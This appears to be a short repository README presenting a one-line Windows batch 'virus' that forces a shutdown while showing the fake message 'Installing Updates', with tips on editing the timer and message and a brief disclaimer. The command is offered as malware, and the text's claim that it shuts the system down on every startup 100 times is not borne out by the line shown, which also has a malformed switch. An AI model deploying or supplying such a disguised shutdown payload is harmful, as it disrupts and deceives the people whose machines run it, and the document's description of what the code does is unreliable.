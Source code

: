 # Century Bat File Virus
This Single Line Of code will Shutdown The System On Every Startup 100 Times After Executing The Files. 
<br>
<br>
You Can Edit The Time Of Shutdown "100". You Can Also Edit The Message "Installing Updates".
```bat
shutdown -s -t 100 c "Installing Updates"
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

